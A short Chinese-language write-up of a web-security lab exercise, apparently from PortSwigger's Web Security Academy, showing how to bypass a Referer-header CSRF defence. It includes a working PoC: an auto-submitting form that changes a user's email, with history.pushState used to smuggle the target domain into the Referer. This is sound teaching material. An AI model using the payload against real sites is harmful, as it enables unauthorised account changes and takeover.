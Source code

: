 程序根据referer头来阻止csrf攻击

但是referer验证存在缺陷，容易绕过

例如：

只要存在主域，就可以绕过

![](images/0920CBDDB3624FBB9BEC0F21D34EE30Cclipboard.png)

此时可以使用javascript代码来自动为referer头添加内容

```javascript
history.pushState("", "", "/?$original-domain")
```



poc:

```javascript
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://accf1f1f1fb71fc080d12eea00f00062.web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="14062&#64;qq&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
    //自动为referer添加/?accf1f1f1fb71fc080d12eea00f00062.web-security-academy.net
history.pushState("", "", "/?accf1f1f1fb71fc080d12eea00f00062.web-security-academy.net")
      document.forms[0].submit();
    </script>
  </body>
</html>

```

